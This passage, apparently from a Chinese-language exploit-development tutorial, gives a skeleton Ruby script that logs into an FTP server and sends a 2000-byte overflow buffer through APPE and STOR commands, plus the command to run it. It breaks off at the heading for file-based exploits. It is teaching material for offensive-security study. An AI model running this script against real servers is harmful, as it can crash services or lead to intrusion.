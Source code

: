 # 模块 0x5 | 开发功夫

# 模块 0x5 | 开发功夫

## 骨架利用

拥有一个骨架利用是一个很好的事情，可以在利用过程中快速编辑和使用。

### 网络基础

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close 
```

执行它

```
ruby ftp_exploit.rb [TARGET] [PORT] 
```

请注意，有些服务必须从中接收，有些则不需要。

### 文件基础

创建一个简单的利用文件
